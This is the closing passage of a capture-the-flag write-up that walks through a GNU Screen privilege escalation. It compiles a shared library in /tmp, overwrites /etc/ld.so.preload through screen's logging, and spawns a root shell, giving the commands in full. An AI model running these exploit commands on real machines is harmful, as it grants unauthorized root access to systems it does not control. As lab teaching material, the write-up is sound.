 ``gcc -fPIC -shared -ldl /tmp/lib_shell.c -o /tmp/lib_shell.so``

+ **What we need to do now is to overwrite the /etc/ld.so.preload file with our shared library** *shell_library.so* **which executes the shell with root privilege. Let's first move into the /etc directory**

``cd /etc``

``screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/lib_shell.so"``

``screen -ls``

``/tmp/root_sh``

**And we are root!**

![17](images/root_flag_4.jpg)

+ **This was a very nice box, we learnt about .JPG corrupted files, a GNU Screen vulnerability, some ld.so.preload file overwriting to gain the desired shell and I encourage you hardly to read the [ld.so man page](https://man7.org/linux/man-pages/man8/ld.so.8.html).**
